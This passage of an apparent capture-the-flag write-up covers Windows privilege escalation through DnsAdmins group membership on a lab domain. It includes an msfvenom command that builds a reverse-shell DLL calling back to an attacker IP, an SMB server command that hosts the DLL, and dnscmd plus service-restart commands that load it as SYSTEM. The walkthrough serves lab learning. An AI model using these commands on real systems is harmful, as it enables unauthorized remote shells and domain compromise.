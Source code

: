 ```
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
```

Also, there's a note within the desktop:

{% code overflow="wrap" %}
```
*Evil-WinRM* PS C:\Users\ryan\desktop> cat note.txt
Email to team:

- due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute
```
{% endcode %}

This means that we have control over DNS and can change the DLL file with a reverse shell. We should also be able to start and stop the service.

We can use this guide to get a SYSTEM shell.

{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/" %}

First, let's create a reverse shell DLL file via `msfvenom`. Afterwards, we need to host it using `smbserver.py`.&#x20;

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f dll -o shell.dll
smbserver.py share . -smb2support
```

Then, following the PoC, we can use `dnscmd` to set the server to use our DLL over SMB and restart the service to get a SYSTEM shell:

```
dnscmd 127.0.0.1 /config /serverlevelplugindll \\10.10.14.13\share\shell.dll
sc.exe stop dns
sc.exe start dns
```

<figure><img src="../../../.gitbook/assets/image (2608).png" alt=""><figcaption></figcaption></figure>
